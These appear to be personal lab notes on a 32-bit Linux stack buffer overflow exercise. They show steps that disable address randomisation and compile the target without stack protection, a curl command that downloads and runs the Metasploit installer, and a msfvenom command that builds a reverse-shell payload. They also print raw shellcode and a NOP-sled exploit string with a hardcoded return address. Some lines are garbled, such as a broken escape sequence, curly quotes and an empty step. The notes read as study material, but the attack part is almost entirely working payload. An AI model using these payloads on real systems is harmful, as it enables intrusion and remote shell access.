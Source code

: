 run $(perl -e 'print"\x41"x104')

bufsize 35595108 = 16


![[Pasted image 20250821120722.png]]


0x000012ed
0x565562ed


run $(perl -e 'print"\x41"x20')

![[Pasted image 20250821121024.png]]


![[Pasted image 20250821121046.png]]


curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb >msfinstall && chmod 755 msfinstall && ./msfinstall


#### Steps
1. Disable address randomization
	sudo sysctl -w kernel.randomize_va_space=0
	sudo sysctl -w kernel.randomize_va_space=2

2. Compile using executable stack
	gcc -m32 -g -o stack -z execstack -fno-stack-protector stack.c
	gcc -m32 -g -o stack_v2 -z execstack stack.c
3. 

#### Payload Generation

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f c
```
buf total = 68
```
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd"
"\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02"
"\x0f\x68\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3"
"\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f"
"\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80";
```

```
run $(perl -e ’print "\x90"x40,"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\
x68\x2f\x2f\x73\x68\x68\x2f\x62\x 69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80\x90",
"\x04\xf2\xff\xbf"x40’)
```

run $(perl -e ’print "\x90"x40,"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\
x68\x2f\x2f\x73\x68\x68\x2f\x62\x 69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80\x90",
"\x04\xf2\xff\xbf"x40’)

